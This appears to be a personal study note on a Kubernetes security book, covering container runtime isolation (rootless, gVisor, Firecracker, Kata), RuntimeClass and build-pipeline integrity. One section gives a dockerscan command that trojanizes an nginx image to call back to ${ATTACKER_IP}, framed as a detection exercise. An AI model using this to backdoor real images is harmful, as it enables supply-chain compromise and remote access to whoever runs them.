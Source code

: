 
_Rootless_ means the **low-level container runtime process that creates the container is owned by an unprivileged user**, and so container breakout via the process tree only escapes to a nonroot user, nullifying some potential attacks.

```
When the kernel, OpenSSL, and other critical software are written in C, we just want to move everything as far away from trusted kernel space as possible.
```

**gVisor and Firecracker** (written in Golang and Rust, respectively) both operate on the premise that their statically typed system call proxying (between the workload/guest process and the host kernel) is more secure for consumption by untrusted workloads than the Linux kernel itself, and that performance is not significantly impacted.

The **Kata Containers** runtime launches each container on a guest Linux kernel. Each Linux system is on its own hardware-isolated VM,

**Kubernetes supports running multiple container runtimes simultaneously**; in Kubernetes, [Runtime Class](https://oreil.ly/dRHzA) is stable from v1.20 on. This means a Kubernetes worker node can host pods running under different Container Runtime Interfaces (CRIs), which greatly enhances workload separation.

# Chapter 4: Applications and Supply chain

See [[Supply Chain Security]]

## Compromising container images
Try dockerscan to trojanize a standard container (e.g. nginx) and check which tools will pick this up.

```
$ docker save nginx:latest -o webserver.tar 
$ dockerscan image modify trojanize webserver.tar \ 
  --listen "${ATTACKER_IP}" --port "${ATTACKER_PORT}" 
  --output trojanized-webserver
```

## Detecting compromised containers

## Software factory pattern
A Software Factory is a form of CI/CD that focuses on self-replication. It is a build system that can deploy copies of itself, or other parts of the system, as new CI/CD pipelines.

Cfr DoD reference architecture: https://www.doncio.navy.mil/CHIPS/ArticleDetails.aspx?ID=14700

Cryptographic signing of build steps and artifacts can increase trust in the system, and can be revalidated with an admission controller such as [portieris](https://oreil.ly/mY9eu) for Notary and [Kritis](https://oreil.ly/R33SG) for Grafeas.


### Protect integrity of build containers themselves
###### Warning
An attack on source code prior to building an artifact or generating an SBOM from it is still trusted, even if it is actually malicious, as with SUNBURST. **This is why the build infrastructure must be secured.**
